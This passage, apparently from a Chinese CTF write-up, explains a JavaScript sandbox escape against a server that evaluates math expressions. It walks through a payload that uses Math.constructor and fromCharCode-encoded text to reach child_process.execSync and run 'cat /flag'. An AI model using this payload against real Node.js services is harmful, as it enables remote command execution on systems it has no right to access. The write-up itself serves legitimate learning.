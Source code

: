 ```
Content-Type: application/json
{"e":"1+1","first":"1","second":[1]}
```

我们可以看到1+1被执行了；

 

第二层，17行， `if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, ''))` 这句话意思大概是，e的值只能 是 `Math.xxxxx` 。符号只能出现 `()+\-*&|%^<>=,?:` 。

由于=>的存在，我们得以使用JS的箭头函数，大概是这个意思：

```
x => x*x
等价于
function (x){
  return x*x;
}
```

我们对照着playload一步步看：

```
(Math=>
(Math=Math.constructor,
Math.x=Math.constructor(
Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,
99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,
46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,
95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,
121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()
)
)(Math+1)
```

最外层的是

```
(Math=>(xxxxx)())(Math+1)
```

最外面的小括号是JS立即执行的函数，否则你就只是单单定义了`function (Math){}`这个函数。

开头的`Math`是函数接受的参数也就是形参，`xxxxx`是函数体，`(Math+1)`是实际传入的参数

接下来我们看他的函数体`xxxxx`干了些什么；

举个例子：

```
Math=Math.constructor,Math=Math.constructor(Math.fromCharCode(97,108,101,114,116,40,49,41))
```

可以看到，这里定义了Math，把传入的Math的[constructor属性](https://blog.csdn.net/zengyonglan/article/details/53465505)赋值

具体是什么意思呢？这里是利用了JS的原型链：

- 一开始`Math`并没有定义，如果我们直接传入`Match`，那么会是`object`，而payload中传入的是`Math+1`，此时类型就变成了`object1`。object对象和字符串进行拼接。那么会转换为`string`类型
- 为了清楚，我们重写下代码：

